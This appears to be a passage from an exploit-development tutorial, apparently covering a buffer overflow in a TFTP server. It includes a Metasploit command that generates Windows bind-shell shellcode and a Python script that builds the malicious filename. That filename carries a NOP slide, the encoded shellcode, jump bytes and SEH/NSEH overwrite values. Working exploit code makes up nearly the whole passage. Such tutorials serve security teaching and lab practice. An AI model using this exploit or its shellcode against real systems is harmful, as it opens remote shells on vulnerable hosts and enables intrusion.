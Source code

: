 

Shellcode Time!

We then generate some shellcode:



`msfpayload windows/shell/bind_tcp R | msfencode -a x86 -b "\x00\x2f" -t c`


And stick it in there and add some NOPS before it. Then adjust our amount of A's to accomidate for the nop slide and the shellcode and you should get the following:



```python
import socket

host = "127.0.0.1"
port = 69 

nopSlide = "\x90" * 20 

# bind_tcp metasploit shellcode on port 4444
# 325 bytes
# bad chars = \x00 \x2f
shellcode = ("\xbe\xb9\xdb\x0e\x9c\xdb\xd1\xd9\x74\x24\xf4\x5a\x31\xc9\xb1"
"\x56\x31\x72\x13\x83\xc2\x04\x03\x72\xb6\x39\xfb\x60\x20\x34"
"\x04\x99\xb0\x27\x8c\x7c\x81\x75\xea\xf5\xb3\x49\x78\x5b\x3f"
"\x21\x2c\x48\xb4\x47\xf9\x7f\x7d\xed\xdf\x4e\x7e\xc3\xdf\x1d"
"\xbc\x45\x9c\x5f\x90\xa5\x9d\xaf\xe5\xa4\xda\xd2\x05\xf4\xb3"
"\x99\xb7\xe9\xb0\xdc\x0b\x0b\x17\x6b\x33\x73\x12\xac\xc7\xc9"
"\x1d\xfd\x77\x45\x55\xe5\xfc\x01\x46\x14\xd1\x51\xba\x5f\x5e"
"\xa1\x48\x5e\xb6\xfb\xb1\x50\xf6\x50\x8c\x5c\xfb\xa9\xc8\x5b"
"\xe3\xdf\x22\x98\x9e\xe7\xf0\xe2\x44\x6d\xe5\x45\x0f\xd5\xcd"
"\x74\xdc\x80\x86\x7b\xa9\xc7\xc1\x9f\x2c\x0b\x7a\x9b\xa5\xaa"
"\xad\x2d\xfd\x88\x69\x75\xa6\xb1\x28\xd3\x09\xcd\x2b\xbb\xf6"
"\x6b\x27\x2e\xe3\x0a\x6a\x27\xc0\x20\x95\xb7\x4e\x32\xe6\x85"
"\xd1\xe8\x60\xa6\x9a\x36\x76\xc9\xb1\x8f\xe8\x34\x39\xf0\x21"
"\xf3\x6d\xa0\x59\xd2\x0d\x2b\x9a\xdb\xd8\xfc\xca\x73\xb2\xbc"
"\xba\x33\x62\x55\xd1\xbb\x5d\x45\xda\x11\xe8\x41\x14\x41\xb9"
"\x25\x55\x75\x2c\xea\xd0\x93\x24\x02\xb5\x0c\xd0\xe0\xe2\x84"
"\x47\x1a\xc1\xb8\xd0\x8c\x5d\xd7\xe6\xb3\x5d\xfd\x45\x1f\xf5"
"\x96\x1d\x73\xc2\x87\x22\x5e\x62\xc1\x1b\x09\xf8\xbf\xee\xab"
"\xfd\x95\x98\x48\x6f\x72\x58\x06\x8c\x2d\x0f\x4f\x62\x24\xc5"
"\x7d\xdd\x9e\xfb\x7f\xbb\xd9\xbf\x5b\x78\xe7\x3e\x29\xc4\xc3"
"\x50\xf7\xc5\x4f\x04\xa7\x93\x19\xf2\x01\x4a\xe8\xac\xdb\x21"
"\xa2\x38\x9d\x09\x75\x3e\xa2\x47\x03\xde\x13\x3e\x52\xe1\x9c"
"\xd6\x52\x9a\xc0\x46\x9c\x71\x41\x76\xd7\xdb\xe0\x1f\xbe\x8e"
"\xb0\x7d\x41\x65\xf6\x7b\xc2\x8f\x87\x7f\xda\xfa\x82\xc4\x5c"
"\x17\xff\x55\x09\x17\xac\x56\x18") 

filename = "\x90" * 236
filename += nopSlide
filename += shellcode
filename += "A" * (1492-126-236-len(nopSlide)-len(shellcode)) # 126 for the space that we jump to. 

# 236 for the space up to and including the 4 byte null space. 
# 20 bytes for nop slide and 325 bytes for the shellcode. 

filename += "\x83\xC5\x50" * 18
filename += "\xFF\xE5"
filename += "\xCC" * ( 126 - ((18 * 3) + 2) )
filename += "\xeb\x80\x90\x90" # NSEH overwrite
filename += "\x05\x96\x40" # SEH overwrite 

mode = "netascii" 
data = "\x00\x02" + filename + "\0" + mode + "\0" 
```